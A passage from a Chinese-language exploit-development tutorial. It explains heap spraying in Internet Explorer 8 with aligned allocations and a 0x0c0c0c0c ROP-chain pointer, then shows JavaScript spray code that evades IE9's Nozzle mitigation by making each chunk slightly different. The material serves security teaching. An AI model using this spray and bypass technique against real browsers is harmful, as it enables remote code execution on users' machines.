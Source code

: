 这一种技术很有可能是Pwn2Own 2010的获胜者Peter Vreugdenhil发明的

(参见[http://vreugdenhilresearch.nl/Pwn2Own-2010-Windows7-InternetExplorer8.pdf](http://vreugdenhilresearch.nl/Pwn2Own-2010-Windows7-InternetExplorer8.pdf) )

Peter Vreugdenhil发现当堆块进行大量分配的时候，地址分配的熵处于高位并且是对齐的。就是说堆地址的低位不会发生变化，仅有几个高字节是改变的，为此Peter Vreugdenhil给出了一个例子



```
Heap alloc size(0x7ffc0) allocated at 063d0020
Heap alloc size(0x7ffc0) allocated at 06450020
Heap alloc size(0x7ffc0) allocated at 064d0020
Heap alloc size(0x7ffc0) allocated at 06550020
Heap alloc size(0x7ffc0) allocated at 065d0020
Heap alloc size(0x7ffc0) allocated at 06650020
Heap alloc size(0x7ffc0) allocated at 066d0020
```

利用这一点，如果我控制我分配的堆块大小为0x10000。因为低位不变，那么无论如何我们都可以成功的指向我们想要的地址。举个例子，假如我们在第一次运行中，0x0c0c0c0c属于开始地址在0x0c0c0018的堆块、第二次，0x0c0c0c属于开始地址在0x0c080018的块、第三次处于0x0c030018。因为块是对齐的，只要块的大小可以控制为0x10000的基数就可以，比如0×1000、比如0x5000、比如0x10000。这样一来，我们就可以控制0x0c0c0c0c处的内容始终指向rop链第一条语句了。

我在这里使用后面提到的shellcode.substring(0, (0x80000-6)/2);进行分配，分配结果如下图

[![](./img/85782/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01630470d90afad678.jpg)

接下来我们只需要计算目的地址与rop首语句之间的差值即可把eip准确的指向rop链了。

**<br>**

**7.IE9环境下的堆喷射**

历史的轮盘转到了IE9的时代，微软为了阻止攻击者进行堆喷射在IE9中增加了Nozzle缓解机制，Nozzle缓解机制会检测到堆喷中分配的相同占位块从而导致堆喷失败。但是由于Nozzle的判断机制非常简单，因此只要堆喷的每个堆块有略微的不同比如加入随机数，甚至只需要改变一个字节就可以绕过Nozzle缓解机制的检测，成功实现堆喷。

其实，这里还有一个隐含的意思不知道你有没有意识到，那就是对于具有DEP环境下的堆喷射来说，除了我们布置的payload本身之外其它的部分已经没有什么意义了。我们既不需要它们作为跳板，也不指望它们可以实现什么，因为这部分的内容完全就是随意的，我们可以生成一些随机数或其它的随机内容填充这一部分来使得每个块内容都不同。如果你没能理解这句话意思，那么没关系我们会在后面利用部分详述。

这里展示了如何把IE8下的堆喷代码修改成IE9适用的以绕过Nozzle。



```
&lt;html&gt;
&lt;SCRIPT language="JavaScript"&gt; 
var sc = unescape("%ucccc%ucccc"); 
var nop = unescape("%u0c0c%u0c0c");
while (nop.length &lt; 0x100000) 
    nop += nop; 
nop=nop.substring(0, (0x40000-6)/2); 
heap_chunks = new Array(); 
for (i = 0 ; i &lt; 1000 ; i++) 
{
    code=nop+i;
    heap_chunks[i] = code.substring(0, code.length);
}
&lt;/SCRIPT&gt;
&lt;/html&gt;
```
